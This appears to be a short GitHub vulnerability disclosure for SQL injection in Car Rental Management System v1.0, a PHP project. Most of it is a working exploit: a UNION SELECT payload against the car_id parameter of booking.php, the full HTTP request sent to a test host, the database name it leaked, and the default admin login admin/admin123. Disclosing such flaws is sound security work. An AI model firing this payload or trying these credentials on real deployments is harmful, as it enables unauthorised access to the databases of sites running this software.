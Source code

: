 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: car-rental-management-system/booking.php?car_id=

Vulnerability location: car-rental-management-system/booking.php?car_id=,id

[+] Payload: car-rental-management-system/booking.php?car_id=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/booking.php?car_id=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170960246-3d17480c-ef46-42c9-9dc7-4c359a860833.png)

![image](https://user-images.githubusercontent.com/54017627/170960061-d0c860d9-b368-4c4e-b14f-ca17b58aa9b3.png)
